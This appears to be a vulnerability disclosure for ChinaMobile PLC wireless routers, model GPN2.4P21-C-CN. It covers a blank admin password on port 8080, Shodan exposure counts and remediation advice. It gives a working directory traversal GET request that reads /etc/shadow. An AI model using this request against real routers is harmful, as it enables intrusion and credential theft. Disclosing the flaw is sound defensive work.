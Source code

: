 <h1>Insecure permissions and multiple vulnerabilities in ChinaMobile PLC wireless routers leaves more than 4,300 devices vulnerable to remote attacks Blank passwords and default factory settings</h1>

ChinaMobile PLC Wireless Router model GPN2.4P21-C-CN running the firmware version W2000EN-01(hardware platform Gpn2.4P21-C_WIFI-V0.05) is shipped and deployed without an administrative password on port 8080 and the web configuration interface is accessible using the following syntax: http://<target ip>:8080. From the configuration page an attacker can change the router configuration or he can try to obtain access to the internal network.

<h2>Directory traversal vulnerability</h2>
A different directory traversal vulnerability than the one identified by Rahul Raz (https://www.exploit-db.com/exploits/40304) was identified by using:

 <code>GET /cgi-bin/webproc?getpage=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow&errorpage=html/main.html&var:language=zh_cn&var:menu=setup&var:page=connected&var:retag=1&var:subpage=-</code>
to retrieve the ```etc/shadow``` file where two user accounts were identified with the corresponding hashed passwords:

<code>root:<hash_deleted>:13796:0:99999:7:::</code>
<code>#tw:<hash_deleted>:13796:0:99999:7:::</code>

<h2>Attack surface</h2>
Over 4,320 vulnerable PLC Wireless routers were identified using Shodan. Most of the devices are located in South America (Argentina, Brazil, Honduras, Colombia) followed by Asia (Indonesia, India, Thailand).

<h2>Remediation</h2>
Adding a password to the admin user accounts should reduce the risk of being exploited. The risk of a successful directory traversal still exist and given the fact that the user can’t change the tw account password other risk mitigation strategies should be employed.
